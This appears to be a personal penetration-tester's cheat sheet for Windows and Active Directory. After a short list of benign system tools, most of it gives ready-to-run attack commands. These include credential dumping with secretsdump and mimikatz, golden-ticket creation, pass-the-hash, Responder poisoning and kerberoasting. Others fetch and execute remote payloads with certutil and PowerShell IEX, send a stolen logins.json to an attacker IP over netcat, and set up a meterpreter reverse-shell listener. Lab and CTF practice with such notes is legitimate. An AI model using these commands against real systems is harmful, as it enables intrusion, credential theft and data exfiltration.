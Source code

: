 #### windows system tools 
##### Local User and Group Management 
It is a shell application to manage Windows system administrator applications.

```bash
lusrmgr.msc
```
##### System Configuration utility 

for diagnose startup issues

```bash
MSConfig
```
##### Task Manager 

to manage (enable/disable) startup items. 
```bash
taskmgr
```
##### User Account Control 
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```bash
UserAccountControlSettings.exe
```
##### Computer Management 
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```bash
compmgmt
```
##### System Information 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```bash
msinfo32
```
##### Resource Monitor 
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```bash
resmon
```
##### Windows Registry 
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```bash
regedit
```
##### Group policy objects
a collection of settings that can be applied to OUs

---
#### SMB enumeration 

enumerate

```bash
enum4linux -h
```
open SMB shares

```bash
smbclient -L $IP
smbclient //$IP/share # -c 'recurse;ls' 
```

enumeration
```bash
smbmap -H $IP
smbmap -H '$IP' -u '' -p '' -R 
smbmap -H '$IP' -u '' -p '' -R -A 'enter.txt' #download file
```

scan with nmap

```bash
nmap -p 139,445 -Pn -script smb-enum* $IP
nmap -p 139,445 -Pn -script smb-vuln* $IP
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

connect with smbclient

```bash
smbclient \\\\$IP\\nt4wrksv
```

---
#### rdp 

```bash
rdesktop -u <username> -p <password> $IP -g 70% -r disk:folder=/home/toor/cd/apps
rdesktop -u Administrator -d CONTROLLER $IP
remmina 
```

---
#### AD

extract credentials and secrets from a systemdump
```bash
impacket-secretsdump <domain.local>/<user>:<password>@<ip> 
``` 

where we can pht
```bash
crackmapexec smb <ip>/24 -u '<username>' -H <hash> --local-auth                                
```

login with pht
```bash
impacket-psexec <username>@<ip> -hashes <hash>
```

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting
```bash
responder -I eth0 -rdwv
```

DNSRecon - is a powerful DNS enumeration script
```bash
dnsrecon -d <IP> -t axfr
use auxiliary/gather/enum_dns #with metasploit
```

upload file with cmd
```bash
certutil -split -f -urlcache http://<your IP>/file_to_download
powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<your_ip>/<file>")' #execute file without download (!!)
```

evil-winrm - Windows Remote Management (if 5985 or 5986 ports are open)
```bash
evil-winrm -u <username> -p <password> -i <ip>
upload <file on your ps directory> #to upload file
```

kerberoasting
```bash
sudo ntpdate <target ip>
impacket-GetUserSPNs domain.local/Admin:passwd -dc-ip $IP -request
```

runas.exe (to inject the credentials into memory)
```bash
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

mimikatz
```bash
privilege::debug #ensure that the output is "Privilege '20' ok"
lsadump::lsa /patch #dump hashes
lsadump::lsa /inject /name:krbtgt # dumps hash and security id of kerb ticket
kerberos::golden /user: /domain: /sid: /krbtgt: /id: #create a golden ticket!
misc::cmd #open cmd with elevated priveleges to all machines
```

links
* [WADComs (AD)](https://wadcoms.github.io/)

---
#### enumeration

run powershell with bypass execution policy
```bash
powershell -ep bypass
```

```powershell
whoami /priv #/groups
net user
net users
net localgroups
net user <user>
net group /domain
net user /domain
net user <user> /domain
Get-ADUser(Get-ADGroup) -Identity <user(group)> -Server <domain> -Properties *
Get-ADUser -Filter 'Name -like "*<user>"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADUser -Filter 'Name -like "*stevens"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com
Get-ADDomain
netsh firewall show state
netsh firewall show config
netstat -ano
findstr /si password *.txt # .xml .ini
findstr /spin "password" *.*
dir /s *pass* == *cred* == *vnc* == *config*
```

PowerView.ps1
powershell
Invoke-ShareFinder
Windows 10 Enterprise Evaluation
get-netuser | select cn #enum domain users
Get-NetGroup -GroupName *admin* #enum domain groups

meterpreter
```bash
run post/multi/recon/local_exploit_suggester #in session
getsystem
getprivs
load kiwi #download mimikatz
run post/windows/gather/enum_applications
run post/multi/gather/firefox_creds
```

view all of the hidden files in the current directory
```bash
Get-ChildItem -File -Hidden -ErrorAction SilentlyContinue
```


- [powerview](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [sushant747 win priv esc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)(with vpn)
- [LOLBAS (windows)](https://lolbas-project.github.io/)
- [JAWS](https://github.com/411Hall/JAWS)
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
---
#### other
download file
```
certutil -urlcache -f http://<ip>:<port>/nc.exe nc.exe
```
file transfer
```
nc -nlvp 1234 > logins.json
nc.exe -nv 10.9.3.214 1234 < logins.json
```
[tool to decrypt Mozilla protected passwords](https://github.com/lclevy/firepwd)
set listener
```
use multi/handler
set lport lhost
set PAYLOAD windows/meterpreter/reverse_tcp
run -j (in background)
```
---
#### links
##### windows
- [bloodhound-docker](https://github.com/belane/docker-bloodhound)
- [механизмы закрепления в windows](https://persistence-info.github.io/)